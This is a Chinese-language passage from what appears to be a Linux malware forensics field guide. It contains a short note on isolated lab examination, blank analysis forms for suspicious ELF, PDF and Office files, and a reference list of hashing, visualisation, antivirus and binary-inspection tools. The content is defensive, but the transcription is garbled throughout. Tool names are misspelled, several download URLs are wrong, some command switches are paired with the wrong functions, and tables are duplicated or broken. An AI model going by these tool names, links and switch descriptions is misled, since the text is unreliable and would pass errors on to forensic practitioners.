### 在不符合取证标准的实验环境中检查可疑文件

- 可疑文件绝不应在生产环境或未经过取证基准化的系统上进行检查。
- 潜在危险代码的取证分析需要安全的实验室环境。从受害者系统中提取提取文件后，将其放置在隔离或沙箱系统/网络中，以确保代码无法连接或影响任何生产系统。
- 尽管在调查的此时计划进行粗略静态分析，可执行文件仍可能被意外执行，从而导致生产系统的污染或损坏。
- 强烈建议在预设计的专用恶意代码实验室检查样本——这可以是一台现场部署的笔记本电脑。实验室应该是可逆的，即使用虚拟化或基于主机的软件解决方案，允许数字调查人员将系统恢复到指定的基准配置。检查样本的基础配置应详细记录，并且不含与其他样本相关的伪迹，以避免取证不当、误报和错误的分析结论。


托管这些资源的服务器日志对于执法部门、计算机应急响应小组（CERT）以及寻求修复恶意活动并识别攻击者[s]的专业人员具有极大的调查价值（例如：其他受侵害的网站、攻击者[s]的访问等）。独立研究该恶意软件的人员的访问会在日志中留下网络痕迹证据。

## 文件分析备注：可疑文件

| 案件编号: | 日期/时间: |
| --- | --- |
| 调查员: | |
| 文件标识符 | 获取日期: |
| 获取该文件的来源: | |
| 文件名: | 大小: | MD5: SHA1: 文件相似性指数 (FSI): 在在线哈希存储库中识别出的文件: |
| 文件类型: | 文件外观: | 文件内容可视化: |

- ☐ 可执行文件
- ☐ 可 可执行与可链接格式 (ELF)
- ☐ 压缩文件 Zip Rar RAR 其他
- ☐ 二进制/配置文件 BIN 其他
- ☐ 文档文件
- ☐ PDF
- ☐ Office-Excel
- ☐ Office-PPT
- ☐ Office-Word
- ☐ 其他
- ☐ 其他

| 反病毒特征码: | 厂商: | 提交至沙箱的文件 (仅限 PE 文件): |
- ☐ Norman Yes ☐ No
- ☐ BitBlaze Yes ☐ No
- ☐ Anubis Yes ☐ No
- ☐ ThreatExpert Yes ☐ No
- ☐ GFI (Sunbelt CWSandbox) Yes ☐ No
- ☐ Joe Sandbox Yes ☐ No
- ☐ 恶意软件: Yes ☐ No
- ☐ NovaScan Minotaur Yes ☐ No
- ☐ Xandora Yes ☐ No
- ☐ Wewapet Yes ☐ No
- ☐ Check.ca Yes ☐ No |

| 提交至在线病毒扫描引擎的文件: | 通过在线 URL 扫描器提交的文件: |
- ☐ VirusTotal 识别为恶意? ☐ Yes ☐ No
- ☐ Sunack 识别为恶意? ☐ Yes ☐ No
- ☐ virScan 识别为恶意? ☐ Yes ☐ No
- ☐ Wewapet 识别为恶意? ☐ Yes ☐ No
- ☐ Jotti 识别为恶意? ☐ Yes ☐ No
- ☐ AVG 识别为恶意? ☐ Yes ☐ No
- ☐ Metascan 识别为恶意? ☐ Yes ☐ No
- ☐ UMI-Void 识别为恶意? ☐ Yes ☐ No
- ☐ MalFease 识别为恶意? ☐ Yes ☐ No
- VirusTotal 识别为恶意? ☐ Yes ☐ No
- ☐ 其他: 识别为恶意? ☐ Yes ☐ No
- ☐ Pareto 识别为恶意? ☐ Yes ☐ No |

## Linux 系统恶意软件取证实地指南

| 识别出的常见漏洞与暴露 (CVE): |
| 1) CVE- 描述: |
| 2) CVE- 描述: |
| 3) CVE- 描述: |
| 4) CVE- 描述: |

## 字符串

| 域名 | IP 地址 | 电子邮件地址 | 昵称/标识符 | 程序命令 | 注册表引用 | 其他: |
|---|---|---|---|---|---|---|
| | | | | | | |
| | | | | | | | |
| | | | | | | |
| | | | | | | |
| | | | | | | | |

## 共享库

- - 静态链接
- 动态链接
- 已识别的依赖项: 是/否

- -共享库名称 | 目的 | 系统调用引用 |
|---|---|---|
| | | |
| | | |
| | | |
| | | |
| | | |
| | | |
| | | |
| | | |

## 符号引用

- - 符号已剥离
- 符号存在
- 已识别的符号: 是/否

| 符号名称 | 目的 | 系统调用引用 |
|---|---|---|
| | | |
| | | |
| | | |
| | | |
| | | |
| | | |
| | | |
| | | |

## 元数据

| | |
|---|---|
| 作者/创建者: | 文件版本号: |
| 创建日期: | 产品版本号: |
| 修改日期: | 口头或书面语言: |
| 文件类型: | 字符集: |
| MIME 类型: | 文件描述: |
| 机器类型: | 文件版本: |
| 编译时间戳: | 内部名称: |
| 编程语言: | 控制台或 GUI 程序: |
| 编译器: | 法律版权: |
| 链接器版本: | 注释: |
| 入口: | 产品名称: |
| 目标 OS 类型: | 产品版本: |

## 备注:

| |
|---|---|
| | |

## 文件混淆

- ☐ 已检查文件混淆 ○ Yes No
- ☐ 检测到文件混淆 ○ Yes No
- ☐ 混淆类型:
  - ☐ 加壳 (Packing)
    签名:
    签名:
  - ☐ OCrypto
    签名:
    签名:
  - ☐ 封装 (Wrapped)
    签名:
    签名:
- ☐ 提交至文件解壳服务 [仅限 PE 文件]

| | |
||---|---|
| Ether | 成功提取 ○ Yes No |
| Renovo (在 BitBlaze 中) | 成功提取 ○ Yes No |
| Jsumpack | 成功提取 ○ Yes No |

## 备注:

| |
|---|---|
| | |

## ELF 可执行与可链接格式 (ELF) 文件结构和内容



文件签名:
文件特征:
入口点地址:
目标操作系统:
目标平台/处理器:
文件段数量:
注释数据 (.comment):
仅读数据 (.rodata)。
特定程序指令 (.text)
其他感兴趣的项目:

## 附加备注:

混淆提取后的 ELF 样本: ○ Yes No

## 文件分析备注：可疑 PDF

| 案件编号: | 日期/时间: |
| --- | --- |
| 调查员: | |
| 文件标识符 | 获取日期: |
| 从哪个文件获取: | |
| 文件名: | 大小: |
MD5:
SHA1:
文件相似性指数 (FSI) 匹配: |

| 元数据值 | 外观: | 可视化: |
| --- | --- | --- |
| 主题: | 创建者: | |
| 作者: | 产品: | |
| 创建日期: |  ID: | |
| 修改日期: | 单词: | |
| 关键词: | 字符: | |
| 原文文档 | 页数: | |
| 标题: | 安全设置: | |
| 其他: | | |

| 反病毒特征码: | 厂商: |
- 签名:
- ☐ Norman Yes ☐ No
- ☐ BitBlaze Yes ☐ No
- ☐ JoeSandbox Yes ☐ No
- ☐ Malware Yes ☐ No
- ☐ Opswat Minotaur Yes ☐ No
- ☐ Wewapet Yes ☐ No
- ☐ Check.ca Yes ☐ No |

| 提交至病毒扫描引擎: | | |
| --- | --- | --- |
- VirusTotal 识别为恶意? Yes ☐ No
- VirScan 识别为恶意? Yes ☐ No
- Lotti 识别为恶意? Yes ☐ No
- Metascan 识别为恶意? Yes ☐ No
- Sympack 识别为恶意? Yes ☐ No
- Opswat 识别为恶意? Yes ☐ No
- AVG Yes ☐ No
- URLVoid 识别为恶意? Yes ☐ No
- VirusTotal 识别为恶意? Yes ☐ No
- Pareto | | |

- 1) CVE-: 描述:
- 2) CVE-: 描述:
- 3) CVE-: 描述:
- 4) CVE-: 描述:
- 5) CVE-: 描述:
- 6) CVE-: 描述:
- 7) CVE-: 描述:

## 字符串

| 域名 | IP 地址 | 电子邮件地址 | 昵称/标识符 | 程序命令 | 注册表引用 | 其他: |
|---|---|---|---|---|---|---|
| | | | | | | |

## 文档主体内容


## 分检 (Triage)

- - 扫描文件以识别恶意特征:
- 使用工具:
- 恶意特征:
  - 是
  - 否

| | 特征 | 实例 | 对象数量 |
|---|---|---|---|
| Header | /AA | | |
| Object | /Acroform | | |
| Body | /EmbeddedFile | | |
| Object | /Encrypt | | |
| Object | /FlateDecode | | |
| | /JavaScript | | |
| XREF | /JS | | |
| | /BIGDecode | | |
| Trailer | /Launch | | |
| | /Names | | |
| | /Objstm | | |
| | /OpenAction | | |
| | /Page | | |
| | /RichMedia | | |
| | /URI | | |

## 文件结构和内容

异常对象识别:

Yes
Object #_
Object #_
Object #_
Object #_"

异常流识别:

Yes
Object #_
Object #_
Object #_
Object #_"

可疑/恶意脚本识别:

Yes
Object #_
Object #_
Object #_
Object #_"

发现嵌入代码:

Yes
Object #_
Object #_
Object #_
Object #_"

## 恶意脚本

| 恶意脚本识别: | 脚本类型: | 提取并保存的脚本: | 保存名称: | 大小: | MD5: | SHA1: 文件相似性指数 (FSI) 匹配 |
| 脚本混淆: | Yes ☐ No |
| 脚本调用嵌入代码: | Yes ☐ No | |
| 脚本请求额外文件: | Yes ☐ No | |

## Linux 系统恶意软件取证实地指南

| 嵌入代码 |
|------|
| **嵌入代码识别:** Yes No |
| 提取并保存的嵌入代码: |
| 保存的嵌入代码名称: 大小: MD5: SHA1: 文件相似性指数 (FSI) 匹配: |
| 嵌入代码混淆: Yes No |
- [ ] |
| 嵌入代码调用其他嵌入文件: 是/否 |
- [ ] |
- [ ] |
- [ ] |
- [ ] | |
| 嵌入代码请求额外文件: 是/否 |
- [ ] |
- [ ] |

| 嵌入便携式执行文件 (PE) 文件 |
|------|
| **嵌入 PE 文件识别:** Yes No |
| 提取并保存的 PE 文件: |
| PE 文件 文件名: 大小: MD5: SHA1: 文件相似性指数 (FSI) 匹配: |
| PE 文件混淆: Yes No |
- [ ] |
| PE 文件调用其他嵌入文件: 是/否 |
- [ ] |
- [ ] |
| 嵌入 PE 文件请求额外文件: 是/否 |
- [ ] |
- [ ] |

在单独的实地表单对 PE 文件进行完整文件分析: Yes No

| 嵌入可执行与可链接格式 (ELF) 文件 |
|------|
| **嵌入 ELF 文件识别:** Yes No |
| 提取并保存的 ELF 文件: |
| ELF 文件名: 大小: MD5: SHA1: 文件相似性指数 (FSI) 匹配: |
| ELF 文件混淆: Yes No |
- [ ] |
| ELF 文件调用其他嵌入文件: 是/否 |
- [ ] |
- [ ] |
| 嵌入 ELF 文件请求额外文件: 是/否 |
- [ ] |
- [ ] |

# 文件分析笔记：可疑文档文件

| 案件编号: | 日期/时间: |
| --- | --- |
| 调查员: | |
| 文件标识符 | | |
| 获取文件的来源: | 获取日期: |
| MS Office 文件类型: | ☐ Word ☐ Excel ☐ PowerPoint |
| MS Office 文件格式: | ☐ 二进制格式 ☐ 二进制格式 ☐ 二进制格式 ☐ Open XML ☐ Office Open XML ☐ Office Open XML |
| 文件名: | 大小: ☐ MD5: ☐ SHA1: |
| 文件相似性索引 (FSI) 匹配项: | |
| 在在线哈希库中识别的文件: | | |

| 元数据价值: | 文件外观: | 文件内容可视化 |
| --- | --- | --- |
| 主题: | 总编辑时间: | |
| 作者: | 创建日期: | |
| 关键词: | 修改日期: | |
| 模板: | 页数: | |
| 最后修改者: | 单词数: | |
| 修订次数: | 字符数: | |
| 软件: | 安全性: | |
| 最后打印时间: | 其他: | |
| 语言代码: | | |
| 公司: | | |

| 反病毒病毒签名: | 厂商: |
| --- | --- |
| 签名: | ☐ Norman ☐ 是 ☐否 |
| ☐ BitBlaze ☐ 是 ☐否 |
| ☐ Joe Sandbox ☐ 是 ☐否 |
| ☐ MalOffice ☐ 是 ☐否 |
| ☐ Minotaur ☐ 是 ☐否 |
| ☐ Wepawat ☐ 是 ☐否 |
| ☐ ViCheck.ca ☐ 是 ☐否 |

| 提交至在线病毒扫描引擎的文件: | 通过在线 URL 扫描器提交的文件: |
| --- | --- |
| ☐ VirusTotal 是否识别为恶意? ☐ 是 ☐否 | ☐ Junpacket 是否识别为恶意? ☐ 是 ☐否 |
| VirScan 是否识别为恶意? ☐ 是 ☐否 | ☐ DgeWeb 是否识别为恶意? ☐ 是 ☐否 |
| ☐ Jotti 是否识别为恶意? ☐ 是 ☐否 | ☐ AVG 是否识别为恶意? ☐ 是 ☐否 |
| ☐ Metascan 是否识别为恶意? ☐ 是 ☐否 | ☐ URLVoid 是否识别为恶意? ☐ 是 ☐否 |
| | ☐ Pareto |

| 识别的常见漏洞与暴露 (CVE): |
| --- | --- |
| 1) CVE- : 描述: |
| 2) CVE- : 描述: |
| 3) CVE- : 描述: |
| 4) CVE- : 描述: |
| 5) CVE- : 描述: |

# 字符串

| 域名 | IP 地址 | 电子邮箱地址 | 昵号/标识符 | 程序命令 | 注册表引用 | 其他: |
|---|---|---|---|---|---|---|
| | | | | | | | |
| | | | | | | |

# 文档正文内容


# 分拣

- 已扫描文件以识别恶意指标:
- 使用的工具:
- 识别并提取的 VB 代码:
  是
  否
- 识别出的恶意指标:
  是
  否

| 指标 | 出现次数 | 偏移量 |
| --- | --- | --- |
| | | |
| | | |
| | | |
| | | |
| | | |

# 恶意索引

| 索引 | 评分 | 索引 | #已识别 | 评分 |
| --- | --- | --- | --- | --- |
| 可执行文件 | 20 | 可执行文件 | 20 | |
| 代码 | 10 | 代码 | 10 | 恶意索引 |
| 字符串 | 2 | 字符串 | 2 | |
| OLE | 1 | OLE | 1 | |

# 文件结构与内容

- 识别出的匿名 OLE:
  是:
    偏移:
    偏移:
    偏移:
  否

- 识别出的可疑/恶意脚本:
  是:
    偏移:
    偏移:
    偏移:
    偏移:
  否

- 发现的嵌入 Shellcode:
  是:
    偏移:
    偏移:
    偏移:
    偏移:
  否

# 恶意脚本

| 识别出的恶意脚本: |
| 脚本类型: |
| 脚本已提取并保存: ☐ 是 ☐否 |
| 保存名称: |
| 大小: |
| MD5: |
| SHA1: |
| 文件相似性索引 (FSI) 匹配项: |
| 脚本已混淆: ☐ 是 ☐否 |
| ☐ |
| 脚本调用嵌入 shellcode: ☐ 是 ☐否 |
| ☐ |
| ☐ |
| 脚本发起网络请求获取额外文件: ☐ 是 ☐否 |
| ☐ |
| ☐ |

# 嵌入 Shellcode

| 识别出的嵌入 Shellcode: |
| Shellcode 已提取并保存: ☐ 是 ☐否 |
| Shellcode 名称: |
| 大小: |
| MD5: |
| SHA1: |
| 文件相似性索引 (FSI) 匹配项: |
| Shellcode 已混淆: ☐ 是 ☐否 |
| ☐ |
| 嵌入 shellcode 调用其他嵌入文件: ☐ 是 ☐否 |
| ☐ |
| ☐ |
| 嵌入 shellcode 发起网络请求获取额外文件: ☐ 是 ☐否 |
| ☐ |
| ☐ |
| 嵌入 shellcode 已编译为可执行文件以便进一步分析: ☐ 是 ☐否 |
| 新可执行文件名: |
| 大小: |
| MD5: |
| 文件相似性索引 (FSI) 匹配: |
| 已对新可执行文件进行进一步分析? ☐ 是 ☐否 |

# 第5章：文件识别与分析

| 嵌入可执行文件 (PE) |
| 识别出的 OPE 文件: ☐ 是 ☐否 |
| OPE 文件已提取并保存: |
| 文件名: |
| 大小: |
| MD5: |
| SHA1: |
| 文件相似性索引 (FSI) 匹配: |
| OPE 文件已混淆: ☐ 是 ☐否 |
| OPE 文件调用其他嵌入文件: ☐ 是 ☐否 |
| 嵌入 PE 文件发起网络请求获取额外文件: ☐ 是 ☐否 |
| 对 PE 文件进行了完整分析: ☐ 是 ☐否 |

| 嵌入可执行和可链接格式 (ELF) |
| 识别出的 ELF 文件: ☐ 是 ☐否 |
| ELF 文件已提取并保存: |
| 文件名: |
| 大小: |
| MD5: |
| SHA1: |
| 文件相似性索引 (FSI) 匹配: |
| ELF 文件已混淆: ☐ 是 ☐否 |
| ELF 文件调用其他嵌入文件: ☐ 是 ☐否 |
| 嵌入 ELF 文件发起网络请求获取额外文件: ☐ 是 ☐否 |
| 对 ELF 文件进行了完整分析: ☐ 是 ☐否 |

## 恶意软件取证工具

# 屏幕截图

| | |
|---|---|
| 名称: Shutter |
| 页码: 260 |
| 作者/发行: Mario Kemper |
| 来源: http://shutter-project.org/ |
| 描述: 一个功能丰富的开源截屏工具。Shutter 允许用户捕取区域、桌面甚至是目标网站。除了截图功能外，Shutter 还具有内置绘图功能和许多插件来处理屏幕。

# 命令行哈希工具

| | |
|---|---|
| 名称: Md5deep |
| 页码: 262 |
| 作者/发行: Jesse Kornblum |
| 来源: http://md5deep.net/ |
| 描述: 一组用于计算文件摘要（MD5, SHA-1, SHA256, Tiger 或 Whirlpool）的工具。md5deep 提供了许多强大的功能，包括递归哈希、哈希比较、时间估计和分段哈希等。 |

| 选项 | 功能 |
|---|---|
| -p <size> | 分段模式 |
| -r | 递归模式 |
| -z | 显示哈希前的文件大小 |
| -m <file> | 启用模式 |
| -x <file> | 启用负匹配模式 |
| -w | 显示哪个文件匹配 |
| -n | 显示不匹配的已知哈希 |

# GUI 哈希工具

| 名称: GUIMD5Sum (qtmd5summer) |
| 页码: 263 |
| 作者/发行: irfanbah |
| 来源: http://qtmd5summer.sourceforge.net |
| 描述: 一个用于计算目录、子目录和单个文件 MD5 哈希值的图形化工具。GUIMD5sum 为简单文件处理提供了简洁的界面。 |

| 名称: Parano |
| 页码: 263 |
| 作者/发行: BerlioS |
| 来源: http://parano.berlios.de |
| 描述: 用于创建、验证和管理哈希文件的 Gnome 工具。目前支持 MD5、SHA-1 和 (简单文件验证) SFV。 |

# 文件相似性索引

**名称:** SSDDeep
**页码:** 264
**作者/发行:** Jesse Kornblum
**来源:** http://sddeep.sourceforge.net/
**描述:** 一种模糊哈希工具，为内容相似但并非相同的文件关联计算一系列随机大小的校验和。

| 选项 | 功能 |
| --- | --- |
| -v | 详细模式；在处理时显示文件名 |
| -p | 漂亮匹配模式；类似于 -d，包含所有匹配项 |
| -r | 递归模式 |
| -d | 目录模式，比较目录中的所有文件 |
| -s | 静默模式；抑制所有错误 |
| -b | 仅使用文件名；省略所有路径信息 |
| -l | 使用相对路径文件名 |
| -c | 以 CSV 格式打印输出 |
| -t | 仅高于给定阈值的匹配项 |
| -m | 将文件与文件中的已知哈希进行匹配 |

**名称:** DeepToad
**页码:** 264
**作者/发行:** Josean Koret
**来源:** http://google.com/deeptad/
**描述:** 灵感来自 sddeep（一个 python 库和一个使用哈希技术聚类相似文件的工具）。该工具及其用法如下所示：

```


$ lab@maxahrlab:cd ~/deeptad-1.0.2/deeptad.py

DeepToad.py Copyright (C) 2009 Josean Koret <admin@joxret.com>

Usage: ./deeptad.py [parameters]

```
常用参数:
- -e=<directory> 未实现
- -extensions 排除指定的扩展名（用逗号分隔）
- -m=<value> 针对特定扩展名的特征值进行聚类
- -d=<distance> 指定最大编辑距离（默认，16 或 33）
- -ida 启用名称模式（移除字符）
- -span 禁用模式
- -depan 禁用面板
- -c 仅打印生成的哈希
- - 比较文件
- -echo=<msg> 打印消息（用于生成报告）
```

高级参数:
- -b=<block> 指定块大小（默认，512）
- -r=<range> 指定要忽略的字节范围（默认，2）
- -s=<output-size> 指定签名大小（默认，32）
- -f 使用实验性算法
- -simple 使用字符串算法
- -na 使用非激进方法（仅适用于默认算法）
- -ag 使用激进方法（默认）
- -cb 忽略空块（默认）
- -cb 考虑空块

示例:

分析最多 25 个排除 zip 和 rar 文件的文件：
`./deeptad.py -e=.zip,.rar -m25 /home/user/samples`

## 文件可视化

| 名称: **Crypto Visualizer (加密实现分析工具包的一部分)** |
| 页面页码: 304 |
| 作者/发布者: Omar Herrera |
| 获取地址: http://sourceforge.net/projects/ciat |
| 描述: 加密实现分析工具包是一个用于检测和分析文件中加密字节序列的工具集。CryptoVisualizer 以图形化直方图显示目标文件的数据内容，允许数字取证人员识别模式或内容异常。 |



## 名称: **BinVis** 266

| 作者/发布者: Gregory Conti; Marius Cierplach |
| 获取地址: http://code.google.com/binvis |
| 描述: BinVis 是一个二进制文件可视化框架，能够让数字取证人员以独特的方式查看二进制结构。在编写时，该工具不支持在 Linux 上原生安装和运行；必须在系统中安装 Wine 或 Cross。如下图所示，BinVis 提供了八种不同的可视化模式，对目标文件结构、数据模式和内容呈现替代的图形视角。特别具有分析价值的是视图之间的关联性；例如，如果数字取证人员观察字节图（byteplot）显示和字符串查看器（strings viewer），在字节图视图中点击每个区域，目标文件的区域将自动显示在字符串查看器中。 |



| 模式 | 功能 |
| :--- | --- |
| 文本 (Text) | 在文本和十六进制界面显示文件内容 |
| 字节图 (Byte Plot) | 将文件的每个字节映射到显示窗口中的像素 |
| RGB 图 (RGB Plot) | 红、绿、蓝图；每个像素 3 个字节 |
| 位图 (Bit Plot) | 将文件的每个位映射到显示窗口中的像素 |
| 引力图 (Attractor Plot) | 基于混沌理论的可视化显示 |
| 点图 (Dot Plot) | 显示文件中检测到的重复字节序列 |
| 字符串 (Strings) | 在文本视图中显示字符串 |
| 字节云 (ByteCloud) | 由文件内容生成的字节视觉云 |

## 十六进制编辑器

**名称:** Okteta
**页面页码:** 268
**作者/发布者:** Okteta
**获取地址:** userreference.base.org/Okteta

**描述:** 一种用于分析原始数据文件的稳健 GUI 编辑器。具有多功能、高价值的文件分析方法——例如校验和计算器、字符串提取、结构分析、解码和统计工具——可以从主界面查看或最小化。



## 防病毒软件

**名称:** Avast (Linux)
**页面页码:** 272
**作者/发布者:** Avast
**获取地址:** http://files.avast.com/files/linux/avastworkstation-1.3.0-1.i586.rpm; http://files.avast.com/files/linux/avastworkstation-1.3.0-2_i386.deb; http://files.avast.com/files/linux/avastworkstation-1.3.0.tar.gz

**描述:** 一种用于按需和访问扫描的命令行及图形防病毒解决方案。

实用用开关:
- -a 扫描所有文件（默认）
- -c 扫描整个文件
- -d 仅扫描目标目录且不扫描子文件

## Linux 系统恶意软件取证领域指南

| 名称: Avira (Linux) |
| 页面页码: 272 |
| 作者/发布者: Avira Antivirus |
| 获取地址: http://dl.agate.net/down/unix/packages/antivirus/workstation-pers.tar.gz |
| 描述: 一种免费的命令行防病毒解决方案，可以执行按需和访问扫描。 |
| 有用开关: |
| 开关 | 功能 |
| --- | --- |
| --mode | 在三种不同的选择模式下进行扫描：“extlist”根据文件名和扩展名扫描文件；“smart”根据名称/内容检测要扫描的文件；“all”忽略名称或内容扫描所有文件 |
| --scan-mode=<mode> | 扫描子目录 |
| -s --scan-archive | 完全扫描文件（更低的误报/漏报率） |
| -v | 记录感染和警告 |
| -r1 | 记录所有扫描路径 |
| -r2 | 记录所有扫描文件 |

| 名称: AVG (适用于 Linux) | |
| 页面页码: 272 |
| 作者/发布者: AVG |
| 获取地址: http://free.avg.com/us-en/download.prd-alf |
| 描述: 一种免费的命令行防病毒解决方案，可以执行按需和访问扫描。 |
| 有用开关: |
| 开关 | 功能 |
| --- | --- |
| -t | 终端用户界面 (TUI) |
| -d | 调试/详细模式，可以使用最多 3 个 -d 开关来增加详细程度 |
| -x | 从扫描中排除路径；扫描特定扩展名的文件；可以针对多个扩展名 |
| -e | 排除特定扩展名的文件；可以排除多个扩展名 |
| -h | 帮助菜单 |
| -p | 扫描特定路径 |
| -a | 扫描所有文件 |

| 名称: Comodo (适用于 Linux) |
| 页面页码: 272 |
| 作者/发布者: Comodo |
| 获取地址: http://www.comodo.com/download/ |
| 描述: 一种免费的命令行及图形防病毒解决方案。 |

| 开关 | 功能 |
| --- | --- |
| -f | 跟符号链接 |
| -m | 挂载（针对每个目标路径） |
| -d <number> | 扫描深度 |
| -s <number> | 启发式强度 |
| -u <number> | 详细 |
| -z <number> | 压缩包深度 |

| 名称: ClAV |
| 页面页码: 272 |
| 作者/发布者: Clam Team |
| 获取地址: http://www.clamav.net/lang/en |
| 描述: 通过大多数发行版管理器提供的免费命令行防病毒解决方案。 |

| 开关 | 功能 |
| --- | --- |
| -v | 详细 |
| -i | 仅显示感染 |
| -r | 递归扫描 |
| --detect-structured | 检测结构化数据 |
| --file=<file> | 将报告保存到文件 |

| 名称: F-Prot (适用于 Linux) |
| 页面页码: 272 |
| 作者/发布者: F-Prot |
| 获取地址: http://www.f-prot.com/products/linux/; http://www.f-prot.com/download/user.html |
| 描述: 一种免费的命令行防病毒解决方案。 |

## 嵌入式制品提取

### 字符串

**名称：** Strings
**页面引用：** 277
**作者/发布者：** GNU Binary Utilities (**binutils**)；Linux 发行版原生
**获取途径：** GNU Binary Utilities
**描述：** 显示文件中的纯文本 ASCII 和 UNICODE（连续）字符

常用开关：

| 开关 | 功能 |
| --- | --- |
| -a | 扫描条目文件，而不只是数据段。在每个字符串之前显示目标文件的文件名。 |
| -f | 字符串序列长度至少为 <number> 个字符。默认值为 4。 |

## 文件依赖关系

**名称：** LDD
**页面引用：** 281
**作者/发布者：** Roland McGrath 和 Ulrich Drepper
**获取途径：** Linux 发行版原生
**描述：** 显示目标程序/可执行文件使用的共享库。标准用法：

```
$ ldd <target file>
```


常用开关：

| 开关 | 功能 |
| --- | --- |
| `-d` | 显示进程数据重定位 |
| `-r` | 显示进程数据和函数重定位 |
| `-u` | 显示未使用的直接依赖项 |
| `-v` | 详细模式；打印所有信息 |

**名称：** ELF Library查看器
**页面引用：** 283
**作者/发布者：** Michael Pyne
**获取途径：** http://www.purinchu.net/software/elfviewer.php
**描述：** 用于显示目标 ELF 文件库依赖关系的图形化工具。库根据文件路径按层级显示，并位于单独的字段中。内置搜索工具允许数字取证人员快速查询并定位特定标识的文件，这些文件以红色文本显示。



# 396 Linux 系统恶意软件取证领域指南

名称：视觉化依赖遍历器 (Visual Dependency Walker)
页面引用：283-284
作者/发布者：Filippos Papadopoulos 和 David Sansome
获取途径：http://freecode.com/projects/visual.ldd
描述：用于显示目标 ELF 文件库依赖关系的图形化工具。库根据文件路径按层级显示，并在单独字段中显著显示。实用的右键菜单允许数字取证人员快速展开或折叠依赖树，或将树形保存到文本文件中。



名称：DepSpec
页面引用：284
作者/发布者：Kyle McFarland
获取途径：https://launchpad.net/depspec
描述：一种用于文件依赖分析的双窗格 GUI，可揭示导入的库、导出库以及相关的符号引用。DepSpec 可以处理 ELF 和 PE 文件。



# 第 5 章 文件识别与特征分析

名称：ELF 依赖遍历器 (ELF Dependency Walker)
页面引用：283-284
作者发布者：Peter Cheung
获取途径：http://code.google.com/p/elf-dependency-walker/
描述：一个功能丰富的 ELF 依赖分析工具，通过展开树形提供可选的视图。在树形模式下，可疑文件以层级树（或文件依赖关系）的形式显示，依赖项显示在右侧查看面板中。或者，图形模式允许数字取证人员将目标标本的文件依赖关系渲染为八种不同的图形布局，以提供对比视角。保存为便携网络图形 (.png) 图像。



## 提取符号和调试引用

| 名称：NM |
| --- |
| 页面引用：285 |
| 作者/发布者：GNU |
| 获取途径：GNU Binary Utilities (binutils)；Linux 发行版原生 |
| 描述：列出目标文件中符号的命令行工具。 |
| 开关 | 功能 |
| --- | --- |
| `-a` | 显示仅调试器的符号 |
| `-A` | 在每个符号之前显示输入文件的名称。在将低级符号解码为用户级符号的“反混(Demangle)”模式下 |
| `-c` | 显示动态符号而非标准符号 |
| `-g` | 仅显示外部符号 |
| `-1` | 使用调试信息定位文件名 |
| `-n` | 按地址对符号进行数值排序 |

| 名称：Gedit 符号浏览器插件 |
| --- |
| 页面引用：291 |
| 作者/发布者：Micah Carrick |
| 获取途径：http://www.micahcarrick.com/gedit-symbol-browser-plugin.html |
| 描述：一种通过 gedit 利用的图形化符号提取和分析工具。 |



## 文件元数据

| 名称：Exiftool |
|------|
| 页面引用：294 |
| 作者/发布者：Phil Harvey |
| 获取途径：http://www.sno.phy.queensu.ca |
| 描述：一个强大的命令行元数据工具，可以从 PDF、MS Office 等其他类型获取信息。常用开关： |

| 开关 | 功能 |
| --- | --- |
| `-q` | 静默输出 |
| `-r` | 递归处理 |
| `-s` | 简短输出 |
| `-S` | 非常简短输出 |
| `-w` | 输出到文件 |

## ELF 分析

| 名称：Binutils |
|------|
| 页面引用：276 |
| 作者/发布者：GNU |
| 获取途径：www.gnu.org/binutils |
| 描述：一组处理 ELF 文件的工具，包括 `nm` 等。 |

| 名称：Elfutils |
|------|
| 页面引用：276 |
| 作者/发布者：Ulrich Drepper |
| 获取途径：http://www.fedor.org/elfutils |
| 描述：一组用于处理 ELF 文件的工具： |

| 工具 | 功能 |
| --- | --- |
| `-a` | 所有 |
| `-h` | 显示文件头 |
